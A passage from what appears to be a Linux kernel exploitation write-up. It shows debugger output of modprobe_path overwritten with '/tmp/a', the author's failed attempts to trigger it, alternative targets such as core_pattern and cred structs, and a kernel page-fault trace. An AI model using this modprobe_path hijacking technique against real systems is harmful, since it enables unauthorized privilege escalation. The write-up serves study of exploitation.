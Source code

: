 ```
gef➤  x/20gx &modprobe_path
0xffffffff8203b840 <modprobe_path>:     0x0000612f706d742f      0x0000612f706d742f
0xffffffff8203b850 <modprobe_path+16>:  0x0000612f706d742f      0x0000612f706d742f
0xffffffff8203b860 <modprobe_path+32>:  0x0000612f706d742f      0x0000000000000246
0xffffffff8203b870 <modprobe_path+48>:  0x0000612f706d742f      0x0000612f706d742f
0xffffffff8203b880 <modprobe_path+64>:  0x0000612f706d742f      0x0000000000000052
0xffffffff8203b890 <modprobe_path+80>:  0x8000000000000000      0x0000612f706d742f
0xffffffff8203b8a0 <modprobe_path+96>:  0x0000612f706d742f      0x0000612f706d742f
0xffffffff8203b8b0 <modprobe_path+112>: 0xffffffffffffffff      0xffffffff81a00191
0xffffffff8203b8c0 <modprobe_path+128>: 0x0000000000000010      0x0000000000010046
0xffffffff8203b8d0 <modprobe_path+144>: 0xffffffff8203b8e8      0x0000000000000018
gef➤  x/s &modprobe_path
0xffffffff8203b840 <modprobe_path>:     "/tmp/a"
```

Incredibly, nothing crashed... yet...

I had created a file at /tmp/a to be executed when I ran the trigger file with a bad header, but when I executed it a page fault occurred and prevented the file at the hijacked modprobe path from being executed...

It turns out I had corrupted more than just modprobe path... at this point I tried a bunch of different offsets of the `modprobe_path` variable hoping one of them might 'just work' but had no such luck, I even gave up on `modprobe_path` at one point and started exploring hijacking `core_pattern` and even seeing if I could safely corrupt a cred struct. None of those ended up working out, for a brief second I considered that maybe I should stop being lazy and just rop. But then I had another idea, what if I could just fix the corruption... with more corruption?

Lets take a closer at what was going wrong when I tried to corrupt `modprobe_path`.

This is the trace the kernel prints when I tried to trigger modprobe:
```
[    5.095502] BUG: unable to handle page fault for address: ffffffff00000208
[    5.096822] #PF: supervisor read access in kernel mode
[    5.098019] #PF: error_code(0x0000) - not-present page
[    5.098661] PGD 202e067 P4D 202e067 PUD 0
[    5.099171] Oops: 0000 [#2] PREEMPT SMP NOPTI
[    5.099704] CPU: 0 PID: 27 Comm: kworker/u2:1 Tainted: G      D            6.3.4 #14
[    5.100631] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.2-1-1 04/014
[    5.101765] Workqueue: events_unbound call_usermodehelper_exec_work
[    5.102522] RIP: 0010:inc_rlimit_ucounts+0x31/0x70
[    5.103129] Code: f0 48 89 f9 45 31 d2 49 b9 ff ff ff ff ff ff ff 7f 4a 8d 34 c5 70 00 00 00 49 83 8
[    5.105340] RSP: 0018:ffffc900000e3cb8 EFLAGS: 00010282
[    5.105977] RAX: ffffffff00000028 RBX: ffff888100964ec0 RCX: ffffffff8203b6c0
[    5.106850] RDX: 0000000000000001 RSI: 0000000000000070 RDI: ffffffff8203b6c0
[    5.107914] RBP: ffffffff8203b6c0 R08: 0000000000000046 R09: 7fffffffffffffff
[    5.108776] R10: 7fffffffffffffff R11: 0000000000000025 R12: 0000000000000000
[    5.110192] R13: ffffc900000e3df0 R14: 00000000ffffffff R15: 0000000000800100
[    5.111701] FS:  0000000000000000(0000) GS:ffff88813bc00000(0000) knlGS:0000000000000000
[    5.112934] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    5.113974] CR2: ffffffff00000208 CR3: 0000000100ad2002 CR4: 0000000000370ef0
[    5.115356] Call Trace:
[    5.115679]  <TASK>
[    5.115953]  copy_creds+0xb8/0x160
[    5.116388]  copy_process+0x3c6/0x19b0
[    5.116860]  kernel_clone+0x96/0x350
[    5.117313]  ? update_load_avg+0x5f/0x610
[    5.117814]  ? update_load_avg+0x5f/0x610
[    5.118316]  user_mode_thread+0x56/0x80
[    5.118788]  ? __pfx_call_usermodehelper_exec_async+0x10/0x10
[    5.119512]  call_usermodehelper_exec_work+0x2a/0x80
[    5.120120]  process_one_work+0x1b1/0x340
[    5.120616]  worker_thread+0x45/0x3b0
```